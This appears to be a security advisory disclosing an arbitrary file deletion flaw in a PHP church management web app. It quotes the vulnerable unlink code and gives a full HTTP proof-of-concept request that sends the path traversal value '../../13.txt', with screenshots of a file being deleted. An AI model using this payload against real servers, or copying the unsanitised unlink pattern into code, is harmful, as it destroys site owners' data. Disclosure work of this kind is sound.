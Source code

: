 ### Vulnerability file address

In line 381 of `church/admin/app/web_crud.php`, `@unlink("../../assets/images/" . $_POST['old_faq_img']);`,` $_POST['old_faq_img']` parameters have not been restricted, which causes any file to be deleted

```php
if ($_FILES['faqphoto']['tmp_name'] != '') {
            $filepath = "../../assets/images/" . generateUniqueFileName($_FILES["faqphoto"]["name"]);

            if (move_uploaded_file($_FILES["faqphoto"]["tmp_name"], $filepath)) {
                $img2 = basename($filepath);
                @unlink("../../assets/images/" . $_POST['old_faq_img']);
            }
        }
```

### POC

```http
POST /church/admin/app/web_crud.php HTTP/1.1
Host: www.church.net
Connection: close
Cookie: PHPSESSID=hl5noegsdjn1ru7skoi8tmqco3
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 373

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update6"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="old_faq_img"

../../13.txt
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="faqphoto";filename="aaa.php"

this is test
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--
```

### Attack results pictures

First, we create a `13.txt` file in the `church/` directory

![image-20250505160420104](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051604148.png)

Then we execute the above poc to attack

![image-20250505160538028](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051605059.png)

Files are deleted after the attack is successful

![image-20250505160555872](https://raw.githubusercontent.com/Amyppp/imgs/main/vuln/202505051605912.png)
